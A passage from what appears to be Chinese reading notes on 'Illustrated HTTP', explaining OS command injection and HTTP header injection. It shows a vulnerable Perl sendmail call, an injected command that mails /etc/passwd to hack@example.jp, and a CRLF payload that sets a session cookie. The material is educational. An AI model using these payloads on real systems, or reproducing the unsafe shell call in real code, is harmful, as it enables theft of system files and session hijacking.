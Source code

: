 ```shell
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";
```

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。
攻击者将下面的值指定作为邮件地址。

```shell
; cat /etc/passwd | mail hack@example.jp
```

程序接收该值，构成以下的命令组合。

```shell
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。

#### HTTP 首部注入攻击

HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。

```http
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345
＊12345就是插入值
```

HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响。

- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）

HTTP 首部注入攻击案例

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的Location 首部字段内，形如 Location: http://example.com/?cat=101。令浏览器发生重定向跳转。

![HTTP 首部注入攻击示例](/images/2018-09-18-read-图解HTTP-Part11-HTTP 首部注入攻击示例.png)

攻击者以下面的内容替代之前的类别 ID 后发送请求。

```http
101%0D%0ASet-Cookie:+SID=123456789
```

其中，`%0D%0A` 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。
